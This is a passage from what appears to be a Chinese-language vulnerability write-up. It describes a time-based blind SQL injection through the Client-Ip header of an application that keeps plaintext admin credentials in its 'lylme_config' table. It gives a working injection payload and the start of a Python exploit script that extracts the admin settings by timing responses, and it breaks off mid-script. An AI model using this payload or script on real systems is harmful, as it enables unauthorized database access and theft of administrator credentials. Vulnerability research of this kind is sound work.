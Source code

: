 [![](assets/1701606448-a60d7d1a3c3130b1a37b504406bcc48e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135329-4a795364-8ce9-1.png)

但是这样我还是觉得不够的，因为当`if`判断正确的时候，语句延时之后还是会执行成功，然后又回到之前的问题，此时注入的效率就跟注入的目标数据成正相关的关系，实际解决这个问题办法很简单，只需要再 sleep(5) 执行之后再拼接一个`exp`即可

```plain
Client-Ip:0'>if(ord(substring(user(),1,1))=114,sleep(5)&exp(999),exp(999))>'
```

## 脚本自动化利用

系统的全局设置内容是从数据库的`lylme_config`表读出来的，里面包括后台账号密码且都是明文的形式

[![](assets/1701606448-aba170454a024bb6a4d9233fbf2be348.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135353-583becd2-8ce9-1.png)

如下所示

[![](assets/1701606448-1c66d379e19102290dc1ba8fa1353135.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135429-6db16c72-8ce9-1.png)

由于是 SQL 时间盲注，写一个快速利用脚本是有必要的。

```plain
def exploit(target, cookie, authcode, timeout=5):
    origin_payload = "select group_concat(v) from lylme_config where k like 'admin%'"
    # 获取长度
    length_payload = f"length(({origin_payload}))"
    # 延时5s
    if timeout < 1:
        timeout += 1
    length = 0
    while True:
        length += 1
        final_length_payload = f"0'>if({length_payload}={(length)},sleep({timeout})&exp(999),exp(999))>'"
        print(f"[*] Trying Length: {length}")
        r1 = post(target, cookie, authcode, final_length_payload)
        if r1.elapsed.total_seconds() > timeout-1:
```